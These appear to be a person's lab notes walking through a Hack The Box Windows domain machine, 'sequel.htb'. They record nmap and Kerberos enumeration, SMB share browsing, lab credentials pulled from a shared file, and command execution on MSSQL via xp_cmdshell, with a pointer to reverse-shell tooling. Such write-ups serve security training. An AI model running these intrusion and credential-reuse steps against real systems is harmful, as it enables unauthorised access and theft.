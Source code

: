 

![[Pasted image 20250616230815.png]]

# Given Credentials:


rose:KxEPkKe6R8su


# 1. Nmap: 
-> I always want to start here to see what ports are open and what services are running.

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.10.11.51 -oN nmap.basic`

When that scan is done I want to do a deeper scan and run that while I do other tasks.

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.10.11.51`

==Try to find valid users with nmap==: 
`sudo nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='sequel.htb',userdb=/usr/share/wordlists/statistically-likely-usernames/us-census-base-lists/j.smith-x98800.txt 10.10.11.51`

Some output from the scan:

1. DNS: DC01.sequel.htb0
2. LDAP and smb in use

![[Pasted image 20250615172520.png]]

## What to try?
1. Null session on SMB?
	1. `rpcclient -U "" -N <target_ip> `
		1. ^^ nothing here either
	2. `smbmap -u "" -p "" -P 445 -H 10.10.11.51 && smbmap -u "guest" -p "" -P 445 -H 10.10.11.51`
		1. ^^ nuthin
2. Null session on LDAP?
	1. `ldapsearch -x -H ldap://10.10.11.51:389 -b "dc=DC01.sequel,dc=htb" "(objectClass=user)"`
	2. ^^ Got nothing here
3. User enumeration with kerbrute?

# enum4linux:
`enum4linux -a 10.10.11.35`

==Usernames:== administrator, guest, krbtgt, domain admins, root, bin

not much more than that.


# With the given credentials (*sigh* did not realize) smbmap:
`smbmap -H 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su' --no-banner`

![[Pasted image 20250615180030.png]]

Let's look into the shares `Users` and `Accounting Department`

These files are on the accounting share: 
![[Pasted image 20250615180459.png]]

What do they have in them?

Likeley username: `ruy.fernandez` or `rfernandez`

==In a shared xml file there are usernames and creds==

```
angela:0fwz7Q4mSpurIt99
Oscar:86LxLBMgEWaKUnBG
kevin:Md9Wlq1E5bZnVDVo
sa:MSSQLP@ssw0rd!
```


## Enumerate users further: 
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py sequel.htb/"oscar":"86LxLBMgEWaKUnBG" -dc-ip 10.10.11.51 -all`

![[Pasted image 20250615183434.png]]

GROUPS:
![[Pasted image 20250615183638.png]]

Cloneable Domain Controllers??


## evil-winrm:
`evil-winrm -i 10.10.11.51 -u oscar -p '86LxLBMgEWaKUnBG'`

^^ nope

## Let's try to get a session on the sqlserver:
`python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sequel.htb/sa@10.10.11.51`

`EXEC xp_cmdshell 'whoami /priv'`

![[Pasted image 20250616221154.png]]

Ryan is part of the remote management users

==NTUSER.DAT== is accessible from the sql user:
![[Pasted image 20250616222424.png]]

## Let's get a reverse shell using revshells.com: https://www.revshells.com/


==We have some interesting files here==:
![[Pasted image 20250616231857.png]]

# Next: 
1. look up how to make reverse shell better
2. what can we find in these files
